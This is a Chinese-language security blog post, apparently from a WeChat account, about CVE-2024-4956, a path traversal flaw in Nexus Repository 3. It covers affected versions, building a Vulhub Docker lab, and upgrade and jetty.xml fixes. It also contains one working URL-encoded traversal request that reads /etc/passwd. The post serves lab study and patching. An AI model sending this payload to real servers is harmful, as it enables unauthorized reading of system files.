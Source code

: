 #  CVE-2024-4956 Nexus Repository 3 路径遍历漏洞   
 海狼风暴团队   2025-06-05 09:43  
  
![](https://mmbiz.qpic.cn/mmbiz_png/WDYXfeKIYgicdEhoEJpMqYYsP1E4bdjOibkAbcxIic2nhMdD4Y13qdEfUZibRTDvqkaQxUyOjiboJuicOB6R4z0rXPqA/640?wx_fmt=png&from=appmsg "")  
  
  
**漏洞简述**  
  
  
Nexus Repository 3 在处理用户提供的路径时存在缺陷，仅依赖 Jetty 的基础验证，未进行严格的安全检查。攻击者可构造恶意 URL 进行路径遍历，访问系统上的任意文件。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/WDYXfeKIYgicdEhoEJpMqYYsP1E4bdjOibkAbcxIic2nhMdD4Y13qdEfUZibRTDvqkaQxUyOjiboJuicOB6R4z0rXPqA/640?wx_fmt=png&from=appmsg "")  
  
  
**受影响版本**  
  
  
Nexus Repository 3.0.0 - 3.68.0  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/WDYXfeKIYgicdEhoEJpMqYYsP1E4bdjOibkAbcxIic2nhMdD4Y13qdEfUZibRTDvqkaQxUyOjiboJuicOB6R4z0rXPqA/640?wx_fmt=png&from=appmsg "")  
  
  
**漏洞环境搭建**  
  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/WDYXfeKIYgicdEhoEJpMqYYsP1E4bdjOibkAbcxIic2nhMdD4Y13qdEfUZibRTDvqkaQxUyOjiboJuicOB6R4z0rXPqA/640?wx_fmt=png&from=appmsg "")  
  
  
# 知识扩展  
  
  
  
Nexus Repository 3是一个仓库管理工具，用于管理和托管软件构件。它支持集中存储、管理和分发构件，便于团队协作和自动化构建。  
  
**漏洞环境搭建**  
  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/WDYXfeKIYgicdEhoEJpMqYYsP1E4bdjOibkAbcxIic2nhMdD4Y13qdEfUZibRTDvqkaQxUyOjiboJuicOB6R4z0rXPqA/640?wx_fmt=png&from=appmsg "")  
  
  
**漏洞环境搭建**  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/WDYXfeKIYgicdEhoEJpMqYYsP1E4bdjOibkAbcxIic2nhMdD4Y13qdEfUZibRTDvqkaQxUyOjiboJuicOB6R4z0rXPqA/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/WDYXfeKIYgicdEhoEJpMqYYsP1E4bdjOibkAbcxIic2nhMdD4Y13qdEfUZibRTDvqkaQxUyOjiboJuicOB6R4z0rXPqA/640?wx_fmt=png&from=appmsg "")  
  
  
**漏洞环境搭建**  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/WDYXfeKIYgicdEhoEJpMqYYsP1E4bdjOibkAbcxIic2nhMdD4Y13qdEfUZibRTDvqkaQxUyOjiboJuicOB6R4z0rXPqA/640?wx_fmt=png&from=appmsg "")  
  
  
**漏洞环境搭建**  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/WDYXfeKIYgicdEhoEJpMqYYsP1E4bdjOibkAbcxIic2nhMdD4Y13qdEfUZibRTDvqkaQxUyOjiboJuicOB6R4z0rXPqA/640?wx_fmt=png&from=appmsg "")  
  
  
**漏洞环境搭建**  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/WDYXfeKIYgicdEhoEJpMqYYsP1E4bdjOibkAbcxIic2nhMdD4Y13qdEfUZibRTDvqkaQxUyOjiboJuicOB6R4z0rXPqA/640?wx_fmt=png&from=appmsg "")  
  
  
**漏洞环境搭建**  
  
  
**漏洞环境搭建**  
  
  
1.克隆 VulHub 仓库到本地  
```
git clone https://bgithub.xyz/vulhub/vulhub.git
```  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/WDYXfeKIYgicdEhoEJpMqYYsP1E4bdjOibATRa7yqFTQTeYAWaz3icPicvicfrnSvjm1vURtxiapHR8eSb2U52RyXBhA/640?wx_fmt=png&from=appmsg "")  
  
2. 进入到漏洞环境目录  
```
cd vulhub/nexus/CVE-2024-4956
docker-compose up -d
```  
  
3.靶场搭建成功  
  
![](https://mmbiz.qpic.cn/mmbiz_png/WDYXfeKIYgicB2EWqdhPBCzTKPiak5zeT98V967QnrvGrO84PCH7tRllLIx5Z2CoibFcFFdWWjFwanopsMt13jn7A/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/WDYXfeKIYgicdEhoEJpMqYYsP1E4bdjOibkAbcxIic2nhMdD4Y13qdEfUZibRTDvqkaQxUyOjiboJuicOB6R4z0rXPqA/640?wx_fmt=png&from=appmsg "")  
  
  
**漏洞验证**  
  
  
1.访问8081端口  
  
![](https://mmbiz.qpic.cn/mmbiz_png/WDYXfeKIYgicB2EWqdhPBCzTKPiak5zeT9piclXvzLGZ4zFk5rBl8ru4RPUBTuvhy11gtGnZGCcoQULk7CbiacMWhw/640?wx_fmt=png&from=appmsg "")  
  
2.burp抓包，修改内容如下：  
```
GET /%2F%2F%2F%2F%2F%2F%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd HTTP/1.1
```  
  
可见，/etc/passwd已被成功读取  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/WDYXfeKIYgicB2EWqdhPBCzTKPiak5zeT9icNq1ly7gFvFok0ibSX3Upnm8YibIJauDYeysTzOiaiayBcCvvPWmv5XbrA/640?wx_fmt=png&from=appmsg "")  
  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/WDYXfeKIYgicdEhoEJpMqYYsP1E4bdjOibkAbcxIic2nhMdD4Y13qdEfUZibRTDvqkaQxUyOjiboJuicOB6R4z0rXPqA/640?wx_fmt=png&from=appmsg "")  
  
  
**修复建议**  
  
  
1.  
将   
Sonatype Nexus Repository 升级到3.68.1或更高版本  
  
2.  
通过修改jetty.xml文件，禁用对/public路径的访问  
  
  
修复步骤：  
  
找到   
jetty.xml 文件  
  
![](https://mmbiz.qpic.cn/mmbiz_png/WDYXfeKIYgicB2EWqdhPBCzTKPiak5zeT9SzDKpjIHCIeb5iaMVO3o5lETZJ1tlLrX1gF01QMPgbKRcHEOzhTd3Uw/640?wx_fmt=png&from=appmsg "")  
  
  
删除以下行：  
```
<Setname="resourceBase"><Property name="karaf.base"/>/public</Set>
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/WDYXfeKIYgicB2EWqdhPBCzTKPiak5zeT9gCbQVB4sXYyOIjgdKuEInMYVtibOOiaf8LN3tPtSpGevy2ehPmHDItVQ/640?wx_fmt=png&from=appmsg "")  
  
  
保存文件并重启环境，可以看到防御有效：  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/WDYXfeKIYgicB2EWqdhPBCzTKPiak5zeT9TKPLuKRkicOqic3wQe5sjJ5hbJay4XHEKoBLhN0MtVhPbtVgVyU22g0Q/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/WDYXfeKIYgicdEhoEJpMqYYsP1E4bdjOibkAbcxIic2nhMdD4Y13qdEfUZibRTDvqkaQxUyOjiboJuicOB6R4z0rXPqA/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/WDYXfeKIYgicyK2l6sBbOia5wH5EwBiah4b8FiazcPnWoUwjVwhSmc8lNeib3HjMTM7t0fhtMK2z1Ascmib43KO9ibKlA/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/WDYXfeKIYgicyK2l6sBbOia5wH5EwBiah4brzc4jKudCwzrLBkS3hDozqGufm3H1Za9VXuNGjGwscBhYnuyxAc05g/640?wx_fmt=jpeg&from=appmsg "undefined")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/WDYXfeKIYgicyK2l6sBbOia5wH5EwBiah4b8FiazcPnWoUwjVwhSmc8lNeib3HjMTM7t0fhtMK2z1Ascmib43KO9ibKlA/640?wx_fmt=png&from=appmsg "")  
  
**- 扫码立即关注 -**  
  
                             
  
